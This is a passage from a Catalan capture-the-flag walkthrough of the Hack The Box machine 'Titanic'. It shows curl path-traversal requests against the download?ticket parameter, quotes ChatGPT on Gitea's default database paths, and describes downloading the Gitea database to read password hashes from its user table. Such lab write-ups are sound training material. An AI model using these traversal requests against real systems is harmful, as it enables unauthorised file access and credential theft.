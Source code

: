 En canvi si la ruta o fitxer existeixen surt un altre error, un 500 del servidor:

```
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://titanic.htb/download?ticket=../../../home/developer   
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Per tant li pregunto al ChatGPT per la ruta de la base de dades per defecte de Gitea i em respon:

Gitea pot utilitzar diferents motors de base de dades: SQLite, MySQL/MariaDB o PostgreSQL. La ruta específica de la BD dependrà de la configuració.

```
1. Si utilitza SQLite (per defecte en instal·lacions simples)
La base de dades sol estar en un fitxer anomenat gitea.db, ubicat a:

/var/lib/gitea/data/gitea.db
o

/home/git/gitea/data/gitea.db
Això depèn d'on hagis instal·lat Gitea i sota quin usuari s'estigui executant.
```
``
Amb la informació donada per el ChatGPT i el que hem vist sobre la resposta del servidor per comprovar si una ruta o fitxer existeix i molt temps, hores, he aconseguit trobar contrasenyes d'usuaris a la taula user de la BD, que, no m'ha deixat mostrar amb curl i l'he hagut d'obtenir i descarregar des del navegador:

```
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db

Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or 
Warning: consider "--output <FILE>" to save to a file.
```

![image](https://github.com/user-attachments/assets/7d6fea80-8f17-4892-a0f3-6e48942b504b)


Podem veure totes les taules de la BD, on n'hi ha una que es diu user i podem veure la seva estructura des de la pròpia Kali Linux nostre:

![image](https://github.com/user-attachments/assets/c3cac366-ed85-43a4-b795-3af1887564c1)


I el contingut de la taula user clicant a Browse Table:

![image](https://github.com/user-attachments/assets/ee369d69-b559-44bb-b7a6-c5941bc9f49d)
